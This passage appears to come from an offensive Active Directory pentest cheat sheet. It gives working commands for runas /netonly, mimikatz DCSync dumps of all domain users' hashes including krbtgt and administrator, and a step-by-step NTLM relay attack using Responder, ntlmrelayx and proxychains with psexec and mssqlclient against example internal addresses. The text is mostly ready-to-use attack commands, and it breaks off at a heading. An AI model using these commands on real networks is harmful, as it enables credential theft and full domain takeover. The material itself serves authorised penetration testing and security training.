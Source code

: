 ### runas
This method will spawn a new process as the user. This wont validate your password, so make sure you enter it right. Slowly but surely :)
```powershell
runas /user:contoso\administrator /netonly powershell
```

### Credential Harvesting
### DCSync
```css
# Dump all available domain users
mimikatz# lsadump::dcsync /domain:fqdn /all /csv

# Dump for specific user
mimikatz# lsadump::dcsync /domain:fqdn /user:krbtgt

# Dump (if no privileged user session)
lsadump::dcsync /domain:contoso.local /dc:dc01 /user:administrator /authuser:dc01$ /authdomain:contoso.local /authpassword:"" /authntlm
```

# NTLM Relay
_Note: This attack will only work if SMB signing if disabled. This can be verify with [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) or any similar tools_

### Basic Relaying
1. Disable **SMB** and **HTTP** in `/etc/Responder.conf`
2. Fire up responder. **SMB** and **HTTP** protocol now should now show as [OFF]
```bash
Responder.py -I eth0 -rdvw
```
3. Create a targets.txt file containing targeted ip addresses. `ntlmrelayx.py` will run captured hash to every protocol available on the given ip addresses
```
all://192.168.0.10
all://192.168.0.11
```
4. Run `ntlmrelayx.py`
```bash
ntlmrelayx.py -tf targets.txt -smb2support -socks
```
5. Authenticate with any available Impacket scripts through `proxychains` and supply no password
```bash
# PsExec
proxychains Psexec.py contoso/administrator:''@192.168.0.10

# mssqlclient
proxychains mssqlclient.py contoso/sqlsvc:''@192.168.0.15 -windows-auth -debug
```

### Dump Domain Objects
lookupsid.py
